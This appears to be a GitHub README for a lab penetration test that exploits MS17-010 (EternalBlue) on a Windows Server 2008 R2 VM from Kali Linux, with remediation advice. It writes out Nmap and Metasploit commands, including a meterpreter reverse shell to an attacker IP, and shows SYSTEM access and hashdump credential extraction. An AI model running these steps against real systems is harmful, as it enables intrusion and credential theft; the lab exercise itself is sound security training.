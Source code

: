 # 🛡️ Windows Server Penetration Testing – MS17-010 (EternalBlue)

A comprehensive penetration test targeting a Windows Server 2008 R2 system, revealing and exploiting the critical MS17-010 (EternalBlue) vulnerability. This project demonstrates real-world exploitation, post-exploitation, and remediation strategies—all performed within a controlled virtualized environment using two VMs: **metasploitable3_win** (target) and **Kali Linux** (attacker).

---

## 🚀 Executive Summary

- **Target:** Windows Server 2008 R2 (`metasploitable3_win`, 192.168.37.135)
- **Attacker:** Kali Linux VM
- **Objective:** Identify and exploit security weaknesses in a lab setup
- **Environment:** All testing was conducted on virtual machines in the same isolated environment for safety and repeatability
- **Result:** Gained full system control via MS17-010 (EternalBlue)  
- **Impact:** Demonstrated risk of network-wide compromise

---

## 🛠️ Tools & Techniques

- **Nmap** – Vulnerability scanning & service enumeration
- **Metasploit Framework** – Exploitation (EternalBlue)
- **Meterpreter** – Post-exploitation, privilege escalation, credential dumping
- **Windows CLI** – System enumeration and navigation

---

## 🖥️ Lab Environment Details

| VM Name               | OS / Role              | Purpose             |
|-----------------------|------------------------|---------------------|
| metasploitable3_win   | Windows Server 2008 R2 | Vulnerable Target   |
| Kali Linux            | Kali Linux             | Attacker Platform   |

- Both VMs were configured on the same virtual network, ensuring safe, repeatable, and isolated testing.

---

## 🔍 Methodology

1. **Reconnaissance & Scanning**
   - Identified open SMB port (445) and vulnerability using Nmap:
     ```
     nmap --script smb-vuln-ms17-010 -p 445 192.168.37.135
     ```
     ```
     PORT    STATE SERVICE
     445/tcp open  microsoft-ds
     | smb-vuln-ms17-010: 
     |   VULNERABLE:
     |   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
     |     State: VULNERABLE
     |     IDs:  CVE:CVE-2017-0143
     |     Risk factor: HIGH
     ```
   - The scan confirmed the target was running on VMware, ensuring the test was isolated and safe.

2. **Exploitation**
   - Used Metasploit's EternalBlue module from the Kali Linux VM:
     ```
     use exploit/windows/smb/ms17_010_eternalblue
     set RHOSTS 192.168.37.135
     set PAYLOAD windows/meterpreter/reverse_tcp
     set LHOST <attacker_ip>
     exploit
     ```
   - Achieved SYSTEM shell:
     ```
     meterpreter > shell
     Microsoft Windows [Version 6.1.7601]
     ```

3. **Post-Exploitation**
   - **System Enumeration:**
     ```
     systeminfo
     ```
     - OS: Windows Server 2008 R2 Standard (VMware Virtual Platform)
     - Host Name: VAGRANT-2008R2
     - Domain: WORKGROUP

   - **Credential Dumping:**
     ```
     hashdump
     ```
     - Extracted password hashes for multiple users, including Administrator.

---

## 📊 Key Findings

- **Critical Vulnerability:** MS17-010 allowed unauthenticated remote code execution
- **Full Compromise:** SYSTEM-level access and credential extraction
- **Lateral Movement Potential:** Risk of network-wide breach

---

## 🛡️ Remediation Recommendations

- **Immediate:**
  - Apply patch KB4012212 to fix MS17-010
  - Disable SMBv1
- **Long-term:**
  - Enforce strong password policies
  - Implement network segmentation
  - Monitor SMB activity

---

## 💡 Impact & Business Risks

- **Severity:** CVSS 10.0 (Critical)
- **Risks:** Data theft, ransomware, regulatory non-compliance, operational downtime, reputational damage

---

## 📁 Project Artifacts

- [Penetration Test Documentation ](Penetration_Testing_Report.pdf)
- [Procedure Walkthrough ](Etblue_Walkthrough.pdf)

---

## 🏆 What I Learned

- Real-world Windows exploitation workflow in a safe virtual lab
- End-to-end penetration testing process
- Risk assessment and remediation planning
- Technical documentation for stakeholders

---
> _“All testing was performed in a controlled virtual environment using two VMs—metasploitable3_win (Windows Server 2008 R2) and Kali Linux—ensuring no impact to production systems and enabling safe, repeatable experimentation.”_


